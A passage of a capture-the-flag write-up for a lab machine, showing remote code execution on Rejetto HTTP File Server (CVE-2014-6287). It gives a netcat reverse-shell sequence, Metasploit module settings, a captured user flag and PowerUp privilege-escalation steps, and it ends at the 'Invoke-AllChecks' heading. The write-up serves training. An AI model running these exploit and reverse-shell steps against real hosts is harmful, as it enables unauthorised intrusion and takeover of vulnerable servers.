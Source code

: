 Looks like port 8080 rund `Rejetto HTTP File Server` and has many exploits and looks like the first one is `CVE-2014-6287`. Also we have an exploit in metasploit. Looks like RCE exploit. I chose doing it with Exploit-DB style👷.

Downloaded the file. Setup a server on port 80 to pass `nc.exe` to the machine. And run exploit 1'st time to transfer `nc.exe`. Again starting a listener in our machine we can run the exploit again to get a shell!!

# Steps 

1. (local) sudo python3 -m http.server 80 => Must have nc.exe
2. (local) python exploit.py robots.thm 8080
3. (local) sudo nc -lnvp 443
4. (local) python exploit.py robots.thm 8080 => We got a shell!🎉🎉🎉🎉🎉

# user.txt

```
b04763b6fcf51fcd7c13abc7db4fd365	
```

(OR)

# Metasploit

windows/http/rejetto_hfs_exec

```
set LHOST 10.8.107.21
set RPORT 8080
set RHOSTS 10.10.80.173
run
```

We have a meterpreter session available.

# Privilege Escalation

Let's enumerate the machine using a powershell script called `PowerUp`. Let's upload it to the meterpreter session.

## Steps

1. upload /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1
2. load powershell
3. powershell_shell => To get a powershell session
4. (PS) . .\PowerUp.ps1
5. (PS) Invoke-AllChecks

## Invoke-AllChecks
